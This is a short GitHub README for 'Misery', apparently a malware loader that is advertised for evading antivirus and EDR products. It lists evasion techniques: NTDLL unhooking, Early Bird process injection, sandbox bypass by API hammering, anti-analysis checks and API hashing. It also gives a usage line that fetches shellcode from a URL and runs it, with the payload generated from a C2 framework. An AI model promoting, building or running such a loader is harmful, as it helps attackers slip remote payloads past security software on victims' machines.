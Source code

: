 # Misery (Evade Av Like Taxes)
## Misery Loader to bypass modern EDR solutions 🖥️ 🛠️
![miserybanner](https://i.imgur.com/yCk788y.jpeg)

## Misery is a code injector with some features
   * 🪝 Unhook NTDLL from suspended process
   * 💉 Early Bird Injection
   * 📦 Sandbox bypass (Api Hammering) ⚒️
   * 🚫 Anti Analysis Functions
   * 😈 Compile Time API Hashing with HashStringJenkins algorithm
   * ❤️ Developed by sorahed with with lots of love
---

## 🆘 Usage 🆘
### 📁 Generate the payload with the c2 of your choice(*.bin)
-
### ⚔️ Misery.exe --shellcode \<URL/shellcode.bin>






